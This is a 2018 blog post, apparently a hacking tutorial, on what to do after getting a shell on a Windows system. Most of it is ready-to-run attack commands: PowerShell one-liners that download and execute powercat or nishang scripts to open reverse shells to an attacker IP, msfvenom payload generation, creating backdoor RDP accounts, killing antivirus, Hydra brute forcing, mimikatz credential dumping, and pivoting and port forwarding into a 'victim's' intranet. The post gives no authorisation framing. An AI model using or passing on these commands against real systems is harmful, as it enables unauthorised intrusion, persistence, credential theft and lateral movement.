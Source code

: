 ```yaml
---
title: After Getting The Shell
date: 2018-11-02 11:55:13
categories: Hacking
tags: [PowerShell, Metasploit]
description: It seems that it's getting more and more popular that everyone would like to scan the whole intranet when he takes down one of the other people's machines. So what to do next after getting the shell of a windows system? Some ideas about that. 
---
```


Here gives two methods to trigger a windows reverse shell with PowerShell, remember to bypass the PowerShell security policy before you execute PowerShell command. (https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/)

For attacker:
```shell
nc -lvp 6666
```

For target:
```shell
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');
powercat -c x.x.x.x -p 6666 -e cmd
```
```shell
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');
Invoke-PowerShellTcp -Reverse -IPAddress x.x.x.x -port 6666
```

Sometimes the protection system on the server will block PowerShell from downloading anything, there are two tools to help you:
```shell
bitsadmin /transfer myDownloadJob /download /priority normal http://downloadsrv/10mb.zip c:\10mb.zip
```
```shell
certutil -urlcache -split -f "https://download.sysinternals.com/files/PSTools.zip" pstools.zip
```

Most of the time you will face three situations:

### You don't have administrator privilege, but there is no protection system.
If you're lucky enough, there's no anti-virus software in the system, you can trigger a reverse Metasploit shell in any method you like:
In an easy way:

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=4444 -f exe > a.exe
```
All you need to do is uploading the payload and execute it. When it comes to the question of how to upload the payload, the answer is that you must forward your local port to the public network with the help of FRP(https://github.com/fatedier/frp) which is a powerful tool, and you must have a VPS to achieve that. Even if you don't have a VPS, you can use ngrok to make it work.

### There is protection system in the server, but you have administrator privilege.
If you're not so lucky, maybe you should find some methods such as veil-evasion to obfuscate your payload. In worse situation, your payload which has been obfuscated was deleted by the antivirus as well. you'd better consider killing the process of the antivirus.

Sometimes it's not easy to kill the process of antivirus, you can just log into the system by the remote desktop protocol. The first step is to add a new user to the system:

```shell
net user Name Pass /add
```
Then you should add this user to the allowed rdp accounts from the commandline:

```shell
net localgroup "Remote Desktop Users" domain\user /add
```

If you want to add a non-domain user, it's easier:

```shell
net localgroup "Remote Desktop Users" user /add
```
But you cannot do crazy things with this account, but you can identify which protection system the server use and shutdown it or bypass it. It's not done yet if you want to execute some high-privilege command, privilege escalation could be taken into consideration.

Hydra is a powerful tool if you have a powerful wordlist:
```shell
hydra x.x.x.x rdp -L users.txt -P wordlist.txt -v
```
Mimikatz is also a good choice to dump the username and password from memory of the server. But most of the time mimikatz will be killed by the protection system.

### You don't have the administrator privilege, and the server has a protection system.

Shutdown your computer and go to sleep unless you have some 0day vulnerabilities.

---

There are some ways to help you to go deep and you can treat your victim as a pivot to find out more vulnerable hosts within the intranet.

Firstly try to add the routing rules of the target to your meterpreter shell. An msf built-in module "autoroute" and is convenient. (https://www.offensive-security.com/metasploit-unleashed/proxytunnels/)

![](https://media.githubusercontent.com/media/recursively/recursively.github.io/hexo/source/pics/1-1.png)

```shell
meterpreter > run post/multi/manage/autoroute
```
![](https://media.githubusercontent.com/media/recursively/recursively.github.io/hexo/source/pics/1-2.png)

You can enumerate hosts by performing an ARP scan:

```shell
meterpreter > run post/windows/gather/arp_scanner rhosts=192.168.5.1/24
```
![](https://media.githubusercontent.com/media/recursively/recursively.github.io/hexo/source/pics/1-3.png)

Adding routing rule is not always working well, you can try the socks4a module in meterpreter:

```shell
use anxiliary/server/socks4a
set srvport 1080
run
```
![](https://media.githubusercontent.com/media/recursively/recursively.github.io/hexo/source/pics/1-4.png)

If it's Linux in your local machine, you can use proxychains to set the socks5 proxy.
Getting proxychains installed:
```shell
apt install proxychains-ng 
```
Add the following content into the /etc/proxychains.conf file:
```shell
socks4 127.0.0.1 1080
```
Then you can use socks proxy to scan the victim's intranet:
```shell
proxychains4 nmap -sT -Pn -open 192.168.5.0/24
```
I have tried so many times to find out all the machines in the victim's intranet but I was usually failed. It just works for few times and the process is too slow. Maybe nmap is the reason for this problem, it works well when I use proxychains to get information from other hosts within the same intranet.

Or you can use EarthWorm(http://rootkiter.com/EarthWorm/) to forward the victim machine's port to your VPS and use proxy
chains or proxifier in your local machine:
For your VPS:
```shell
./ew -s rcsocks -l 1080 -e 1024
```
The command above means your VPS listens the port 1080, 1024  and waits for attacker connect to the port 1080, the victi
m connects to the port 1024.

For target:
```shell
ew.exe -s rssocks -d x.x.x.x -e 1024
```
The argument -d is the IP address of your VPS.

Add the following content into the /etc/proxychains.conf file:
```shell
socks5 x.x.x.x 1080
```
Use proxychains to scan rest of the hosts:
```shell
proxychains4 nmap -sT -Pn -open 192.168.5.0/24
```

If you need ports forwarding, it's also available in meterpreter:
```shell
meterpreter > portfwd add -l 55555 -r 192.168.1.1 -p 3306
```
Another popular tool is lcx.exe:
For attacker:
```shell
lcx -listen 2222 3333
```
For target:
```shell
lcx -slave x.x.x.x 2222 127.0.0.1 3389
```

